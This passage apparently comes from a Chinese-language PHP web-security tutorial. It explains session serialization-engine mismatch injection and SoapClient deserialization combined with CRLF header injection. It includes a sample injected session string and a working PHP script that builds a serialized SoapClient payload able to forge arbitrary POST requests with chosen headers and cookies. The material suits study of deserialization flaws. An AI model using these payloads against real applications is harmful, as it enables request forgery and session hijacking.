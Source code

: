   `a:1:{s:4:"name";s:6:"1FonlY";}`

- **php_binary**：键名的长度对应的ASCII字符 + 键名 + 经过序列化函数处理的值

  `names:6:"1FonlY";`

  不可显的为`EOT` ,`name`的长度为`4` 4在ASCII 表中就是 EOT

**当序列化的引擎和反序列化的引擎不一致时(写入和读取session的格式不一样），就可以利用引擎之间的差异产生序列化注入漏洞。**

比如这里先实例化一个对象，然后将其序列化为 `O:7:"_1FonlY":1:{s:3:"cmd";N;}`，

如果传入 `|O:7:"_1FonlY":1:{s:3:"cmd";N;}`，在使用`php_serialize` 引擎的时候，

序列化后的session 文件是这样的 `a:1:{s:4:"name";s:31:"|O:7:"_1FonlY":1:{s:3:"cmd";N;}";}`，

这时，将`a:1:{s:4:"name";s:31:"` 当做键名，`O:7:"_1FonlY":1:{s:3:"cmd";N;}` 当做键值，将键值进行反序列化输出，这时就造成了序列化注入攻击。



### Soap反序列化

`SOAP` : `Simple Object Access Protocol`简单对象访问协议。

采用HTTP作为底层通讯协议，XML作为数据传送的格式，正常情况下的`SoapClient`类，调用一个不存在的函数，会去调用`__call`方法。

**CRLF漏洞**

`SOAPAction`处可控，可以把`\x0d\x0a`注入到`SOAPAction`，POST请求的header就可以被控制。

但`Content-Type`在`SOAPAction`的上面，就无法控制`Content-Type`，也就不能控制POST的数据。

在header里`User-Agent`在`Content-Type`前面，`user_agent`同样可以注入`CRLF`，控制`Content-Type`的值。

复制

```
<?php
$target = 'http://127.0.0.1:5555/path';
$post_string = 'data=something';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: PHPSESSID=my_session'
    );
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'wupco^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri'=> "aaab"));

$aaa = serialize($b);
$aaa = str_replace('^^',"\r\n",$aaa);
//$aaa = str_replace('&','&',$aaa);
echo $aaa;
//echo urlencode($aaa);

//$c = unserialize($aaa);
//$c->not_exists_function();
?>
```

如上，使用SoapClient反序列化+CRLF**可以生成任意POST请求**。
